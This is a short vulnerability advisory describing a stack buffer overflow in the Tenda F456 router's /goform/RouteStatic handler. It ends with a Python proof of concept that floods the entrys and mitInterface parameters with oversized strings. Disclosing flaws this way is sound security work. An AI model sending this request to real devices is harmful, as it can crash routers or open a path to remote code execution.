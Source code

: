 # Tenda F456 Vulnerability
This vulnerability lies in the `/goform/RouteStatic` page which influences the lastest version of Tenda [F456_V1.0.0.5](https://www.tenda.com.cn/download/detail-1400.html). 
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromRouteStatic`.

In function `fromRouteStatic` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/F456/41/vlun1.png)

So by requesting the page `/goform/RouteStatic`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/RouteStatic?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
